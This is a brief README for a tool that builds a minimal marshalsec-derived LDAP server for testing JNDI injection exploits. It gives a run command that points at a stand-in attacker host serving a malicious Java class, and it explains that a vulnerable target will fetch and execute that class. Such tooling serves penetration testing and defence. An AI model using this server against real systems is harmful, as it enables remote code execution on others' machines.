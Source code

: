 This is a package that builds the minimal subset of [marshals](https://github.com/mbechler/marshalsec) LDAPServer for JDNI exploit testing.

Build:
mvn package

Run:
java -jar target/ldap-server.jar http://attacker.some.com:1234/#bad <port>

The default port is 1805.
http://attacker.some.com:1234/bad.class should be reachable by the attacked.
If vulnerable, the attacked will execute the class.
